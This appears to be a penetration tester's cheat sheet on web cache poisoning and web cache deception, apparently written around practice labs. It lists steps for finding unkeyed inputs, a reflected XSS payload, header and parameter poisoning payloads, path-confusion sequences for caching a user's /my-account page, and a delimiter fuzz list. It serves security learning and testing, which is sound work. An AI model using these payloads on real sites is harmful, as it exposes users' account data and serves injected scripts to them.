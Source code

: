 [#](#) Web Cache Poisoning

Get the cached key

    Pragma: x-get-cache-key
 
1. Find a point of injection that is reflected in the response (get param, header, cookie)
2. Confirm that this "point of injection" is not part of the cached keys.
4. Create a payload (xss, redirect, etc...)
    - string from a GET params or cookie (-> escape the string and XSS)
    - host from x-headers-type (-> redirect to exploit server)

1. /not_existing%20<script>alert(1)</script>
    - Client side encode "<", so can't share link, but can cache the XSS with repeater

### Detecting Cache Response:

* X-Cache
    * X-Cache: miss -> missed the cache (request sent to web server directly)
    * X-Cache: hit  -> hit the cached (not the web server)
    * X-Cache: dynamic -> origin server dynamically generated the content. Generally this means the response is not suitable for caching
    * X-Cache: refresh -> content was outadated

* Cache-Control:
    * Cache-Control: public -> suggests that the resource is cacheable, but cache might overide this header

* Response time might also indicate caching

### Param Miner:

- Guess query params: some query params are excluded from cached key
- Guess everything!

### Payloads Cache Poisoning (OPTIONS, HEAD, GET)

* Pragma: x-get-cache-key
* /?cb=AAAA&utm_content=BBBBB
* /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=arbitraryFunction

### Payloads Cache Deception (OPTIONS, HEAD, GET)

T1

1. /profile
2. /profileAAAA
3. /profile;AAAA
4. /profile;AAAA.css
5. X-Cache: miss

T2 

1. /AAAA/..%2fmy-account
2. Find folder that are cached (/resources, /assets, /static)
3. /resources/..%2fmy-account
4. X-Cache: miss

T3 
 
1. /my-account%23AAAA
2. /AAAA/..%2fmy-account
3. Find folder that are cached (/resources, /assets, /static)
4. /AAAA/..%2fresources/labs.css
5. 404 Cache: Miss
6. /resources/..%2fLabs.css
7. 404 (no cache -> cache decode ..%2f)
8. /my-account%23%2f%2e%2e%2fresources (%23 is used for delimiter)

Web Cache Delimiter List: 

`(turn off intruder encoding)`

`(browsers URL-encode characters like {, }, <, and >, and use # to truncate the path. If the cache or origin server decodes these characters)`


```
!
"
#
$
%
&
'
(
)
*
+
,
-
.
/
:
;
<
=
>
?
@
[
\
]
^
_
`
{
|
}
~
%21
%22
%23
%24
%25
%26
%27
%28
%29
%2A
%2B
%2C
%2D
%2E
%2F
%3A
%3B
%3C
%3D
%3E
%3F
%40
%5B
%5C
%5D
%5E
%5F
%60
%7B
%7C
%7D
%7E
%00
%0A
%09
```

